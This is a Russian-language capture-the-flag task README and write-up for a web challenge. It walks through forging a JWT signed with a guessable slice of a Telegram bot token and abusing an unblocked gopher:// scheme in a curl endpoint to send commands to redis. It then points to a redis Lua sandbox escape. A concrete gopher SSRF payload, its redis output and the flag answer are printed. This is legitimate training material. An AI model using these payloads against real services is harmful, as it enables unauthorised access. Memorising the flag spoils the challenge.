

# requester | hard | web

## Информация

> Мы тут API'шку нашли, а что дальше делать не знаем(((((999  
> Флаг в ./flag.txt  
> http://<ip>:10010

## Деплой

```sh
cd deploy
docker-compose up --build -d
```

## Выдать участинкам

Архив из директории [public/](public/) и текст и раздела "Информация".

## Описание

Веб апи, для доступа нужен подписанный jwt токен. Токен получить может только конкретный юзер ТГ (админ).  
По коду видно, что jwt подписывается первыми 12-ти символами тг бота, т.е. секрет можно сбрутить. 
Подбираем секрет, генерим валидный jwt токен, получаем доступ к ручке /ping. В ручке curl с не запрещенным gopher:// и redis
в котором кешируются ответы. Через gopher:// можем напрямую дергать redis, видим что redis v5.0.7, гуглим уязвимости
для redis v5.0.7, находим escape lua sandbox, эксплойтим, читаем ./flag.txt

## Решение

Дергаем / апишики, видим ответ:
```json
{"message":"Unauthorized, receive auth token in https://t.me/secureadmin2025_bot"}
```

Заходим в [бота](https://t.me/secureadmin2025_bot), там тишина.

Идём в код. По коду видим что jwtMiddleware пускает дальше только с валидными jwt в хидере Authorization. 
```go
if err != nil || !token.Valid {
    return echo.NewHTTPError(http.StatusUnauthorized, "Unauthorized, receive auth token in "+config.BotLink)
}
return next(c)
```
При этом айди юзера в токене никак не проверяется.  
Смотрим чем jwt подписывается и видим прикол:
```go
func init() {
	cfg := GetConfig()
	if len(cfg.TgBotToken) < 12 {
		panic("tg bot token too short")
	}

	SetJwtSecret(cfg.TgBotToken[:12])
}
```
Токен подписывается первыми 12-ю символами из бота токена. В принципе, можем попробовать сбрутить 12 символов, а можем
чуть подумать, посмотреть как выглядят токены тг ботов и узнать, что выглядят они так:
```
7894909700:AAE9gUK2TBNhm5jSjEQiDreuoxjIhv4CvjA - токен #1
7894909700:AAHyxTH8DSUp31PS-tuCNhbfQQszo25AH7Q - токен #2
7894909700:AAElWqPcvYUZkEYsIQ9zHN5Lpd2nhykc2Z8 - токен #3
```

Видим интересное, первые 10 символов это всегда какие-то числа, потом двоеточие и дальше строка рандомных символов.
Чуть пораскинув мозгами, погугли, подергав API тг, понимает что это айдишник бота. Узнаём айдишник [бота](https://t.me/secureadmin2025_bot),
можно через Client API Telegram, можно просто скачать [kotatogram](https://github.com/kotatogram/kotatogram-desktop).  
Узнаём айдишник:  


Знаем что после айди идет ":", значит осталось подобрать один рандомный символ, быстро брутим, узнаем что это "A".
Подписываем токен, получаем доступ к ручке `/pinger`.

Дальше думаем, что можно сделать с curl'ом.  
Видим запрещенные протоколы:
```go
var (
	disallowedProtocols = []string{
		"DICT", "FILE", "FTP", "FTPS", "IMAP", "IMAPS", "LDAP", "LDAPS", "MQTT", "POP3",
		"POP3S", "RTMP", "RTMPS", "RTSP", "SCP", "SFTP", "SMB", "SMBS", "SMTP", "SMTPS", "TELNET", "TFTP", "WS", "WSS",
	}
)
```
Гуглим какие протоколы вообще есть, узнаём что в сервисе забыли закрыть `gopher://`. А ещё видим что у сервиса есть redis
в котором он кеширует ответы на запросы. Гуглим, гуглим, узнаем что redis можно дергать по gopher://.  
Составляем запрос:
```json
{
    "url": "gopher://127.0.0.1:6379/_%0D%0Aauth%20redis%0D%0Ainfo%0D%0Aquit%0D%0A",
    // пароль достали из кода
}
```
Получаем ответ:
```json
{
    "result": "+OK\r\n$3247\r\n# Server\r\nredis_version:5.0.7\r\nredis_git_sha1:00000000\r\nredis_git_dirty:0\r\nredis_build_id:636cde3b5c7a3923\r\nredis_mode:standalone\r\nos:Linux 6.1.0-30-amd64 x86_64\r\narch_bits:64\r\nmultiplexing_api:epoll\r\natomicvar_api:atomic-builtin\r\ngcc_version:9.2.1\r\nprocess_id:9\r\nrun_id:e0343bbeae0b8cc00d05df1dddee31eeac115fa3\r\ntcp_port:6379\r\nuptime_in_seconds:2879\r\nuptime_in_days:0\r\nhz:10\r\nconfigured_hz:10\r\nlru_clock:14877214\r\nexecutable:/app/redis-server\r\nconfig_file:/etc/redis/redis.conf\r\n\r\n# Clients\r\nconnected_clients:2\r\nclient_recent_max_input_buffer:0\r\nclient_recent_max_output_buffer:0\r\nblocked_clients:0\r\n\r\n# Memory\r\nused_memory:914704\r\nused_memory_human:893.27K\r\nused_memory_rss:10006528\r\nused_memory_rss_human:9.54M\r\nused_memory_peak:914704\r\nused_memory_peak_human:893.27K\r\nused_memory_peak_perc:115.80%\r\nused_memory_overhead:889260\r\nused_memory_startup:789872\r\nused_memory_dataset:25444\r\nused_memory_dataset_perc:20.38%\r\nallocator_allocated:1118400\r\nallocator_active:1318912\r\nallocator_resident:4247552\r\ntotal_system_memory:16599011328\r\ntotal_system_memory_human:15.46G\r\nused_memory_lua:41984\r\nused_memory_lua_human:41.00K\r\nused_memory_scripts:0\r\nused_memory_scripts_human:0B\r\nnumber_of_cached_scripts:0\r\nmaxmemory:0\r\nmaxmemory_human:0B\r\nmaxmemory_policy:noeviction\r\nallocator_frag_ratio:1.18\r\nallocator_frag_bytes:200512\r\nallocator_rss_ratio:3.22\r\nallocator_rss_bytes:2928640\r\nrss_overhead_ratio:2.36\r\nrss_overhead_bytes:5758976\r\nmem_fragmentation_ratio:12.67\r\nmem_fragmentation_bytes:9216656\r\nmem_not_counted_for_evict:0\r\nmem_replication_backlog:0\r\nmem_clients_slaves:0\r\nmem_clients_normal:99388\r\nmem_aof_buffer:0\r\nmem_allocator:jemalloc-5.2.1\r\nactive_defrag_running:0\r\nlazyfree_pending_objects:0\r\n\r\n# Persistence\r\nloading:0\r\nrdb_changes_since_last_save:0\r\nrdb_bgsave_in_progress:0\r\nrdb_last_save_time:1742927583\r\nrdb_last_bgsave_status:ok\r\nrdb_last_bgsave_time_sec:-1\r\nrdb_current_bgsave_time_sec:-1\r\nrdb_last_cow_size:0\r\naof_enabled:0\r\naof_rewrite_in_progress:0\r\naof_rewrite_scheduled:0\r\naof_last_rewrite_time_sec:-1\r\naof_current_rewrite_time_sec:-1\r\naof_last_bgrewrite_status:ok\r\naof_last_write_status:ok\r\naof_last_cow_size:0\r\n\r\n# Stats\r\ntotal_connections_received:2\r\ntotal_commands_processed:3\r\ninstantaneous_ops_per_sec:0\r\ntotal_net_input_bytes:148\r\ntotal_net_output_bytes:10\r\ninstantaneous_input_kbps:0.00\r\ninstantaneous_output_kbps:0.00\r\nrejected_connections:0\r\nsync_full:0\r\nsync_partial_ok:0\r\nsync_partial_err:0\r\nexpired_keys:0\r\nexpired_stale_perc:0.00\r\nexpired_time_cap_reached_count:0\r\nevicted_keys:0\r\nkeyspace_hits:0\r\nkeyspace_misses:1\r\npubsub_channels:0\r\npubsub_patterns:0\r\nlatest_fork_usec:0\r\nmigrate_cached_sockets:0\r\nslave_expires_tracked_keys:0\r\nactive_defrag_hits:0\r\nactive_defrag_misses:0\r\nactive_defrag_key_hits:0\r\nactive_defrag_key_misses:0\r\n\r\n# Replication\r\nrole:master\r\nconnected_slaves:0\r\nmaster_replid:f364998c7fba447924663aab2025d7be56f88671\r\nmaster_replid2:0000000000000000000000000000000000000000\r\nmaster_repl_offset:0\r\nsecond_repl_offset:-1\r\nrepl_backlog_active:0\r\nrepl_backlog_size:1048576\r\nrepl_backlog_first_byte_offset:0\r\nrepl_backlog_histlen:0\r\n\r\n# CPU\r\nused_cpu_sys:1.947593\r\nused_cpu_user:2.093558\r\nused_cpu_sys_children:0.000000\r\nused_cpu_user_children:0.000000\r\n\r\n# Cluster\r\ncluster_enabled:0\r\n\r\n# Keyspace\r\n\r\n+OK\r\n"
}
```
Видим Redis v5.0.7. Гуглим уязвимости, находим [lua escape sandbox](https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup), эксплойтим, получаем флаг.  
Пример эксплойта с брутом jwt секрета и эксплуатацией escape lua sandbox:  
[Эксплоит](solve/solve.py)

## Флаг

`miactf{nev3r_trus7_cur1_bbbb6}`

